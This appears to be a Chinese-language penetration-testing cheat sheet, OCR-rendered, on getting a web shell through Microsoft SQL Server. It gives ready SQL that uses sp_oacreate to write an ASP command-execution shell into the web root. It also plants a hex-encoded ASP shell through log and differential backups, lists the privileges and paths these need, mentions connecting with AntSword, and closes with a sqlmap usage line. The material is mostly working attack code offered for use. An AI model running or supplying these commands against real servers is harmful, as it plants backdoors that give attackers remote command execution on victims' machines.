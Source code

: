 - sp_oacreate

- ```sql
  declare @o int,@f int,@t int,@ret int
  exec sp_oacreate 'scripting.filesystemobject',@o out
  exec sp_oamethod @o,'createtextfile',@f out,'c:\inetpub\wwwroot\shell.asp',1
  exec @ret=sp_oamethod @f,'writeline',NULL,'<%execute(request("cmd"))%>'
  ```

- 本地存储过程CLR:直接利用sharpsqltools执行命令写shell进行利用

- `log备份`写shell

- ```sql
  #优点
  - 重复性好,多次备份成功率高
  - 相对于差异备份而言,shell的体积较小
  
  #利用条件
  - DBO权限,默认SA也可
  - 知道绝对路径,并且可写
  - 站库不分离,数据库跟网站在同一台服务器
  - 数据库必须被备份过一次
  
  use test;	//选中数据库
  alter database test set recovery full;	//设置恢复模式
  if exists(select table_name from information_schema.tables where table_name='test_tmp') drop table test_tmp;
  create table test_tmp (a image);	//新建临时表
  backup log test to disk = 'C:\\inetpub\\wwwroot\\asp.bak' with init;	//备份日志到指定路径
  insert into test_tmp (a) values (0x3C25657865637574652872657175657374282261222929253EDA);
  backup log test to disk = 'C:\\inetpub\\wwwroot\\123.asp'; -->连接`蚁剑`密码为a
  ```

- `差异备份`写shell

- ```sql
  #差异备份条件
  - dbo权限
  - 知道绝对路径,可写
  - http 500 错误不是自定义
  - web和数据库在一块.还有的就是数据库不能存在%号特殊字符
  - 数据量不能太大
  - Tips: 差异备份写shell容错率相对较差,通常利用存储过程日志备份写shell更为快捷键
  
  use test;	//选中库
  backup database test to disk = 'c:\\inetpub\\wwwroot\\mssql1.bak';	//手动备份一次
  create table test..test1(a image);	//新建临时表
  insert into test..test(a) values (0x3C25657865637574652872657175657374282261222929253EDA);	//插入一句话木马到表中,注意16进制
  backup database test to disk = 'c:\\inetpub\\wwwroot\\shell.asp' with differential.format;	//进行差异化备份
  drop table test..test1;	//备份完getshell后删除表
  ```


------

# sqlmap

### 基本用法

```bash
sqlmap -u <URL> [options]
```
